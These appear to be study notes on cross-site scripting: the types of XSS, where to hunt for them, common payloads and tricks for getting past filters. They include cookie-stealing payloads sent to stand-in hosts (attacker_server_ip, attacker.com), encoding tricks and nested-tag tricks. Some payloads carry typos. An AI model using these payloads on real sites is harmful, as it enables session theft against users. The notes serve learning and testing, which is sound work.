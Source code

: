 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.
          * The data at the end is encoded in base64 to bypass the XSS filters.
  * Works on <<span>img> tag.
      * https://example.com/upload_profile_pic?url=IMAGE_URL
      * IMAGE URL will be inserted in a <img> tag when the image is rendered.
  * **Take note of which characters are being rendered directly and which ones are escaped.**
###  Common payloads

* <script> alert(1) </script>
* <iframe src = javascript: alert(1) >
* <body onload=alert(1)>
* "><img src=x onerror=prompt(1);>
* <script> alert(1)<!-
    * <!- is an HTML comment, prevents syntax errors.
* <a onmouseover" alert(1)"> test </a>
* <script src=//attacker.com/test.js>

### Other test methods

* Test strings: 
    * <span>>
    * '
    * <span><
    * <span>"
    * //
    * :
    * =
    * ;
    * !
    * --
* Fuzzing

### Bypassing filters

* Mix different encodings and capitilizations to confuse filters.
* HTML allows for syntax errors in capitilzations
* If special characters are filtered, you cant write strings into a payload directly.
    * Use JavaScript functions like fromCharCopde() that translates numeric codes to ASCII chars.
    * <scrIPT> location=String.fromCharCode(104,116,...)+document.cookie;</srcIPT>
    * Use h<span>ttp://js.do/
* Sometimes applications remove tags once or a couple times.
    * <scrip<script>t> ... </scrip</script>t>
    * The inner script tags will be removed, but the outer ones will be brought together and execute.
    

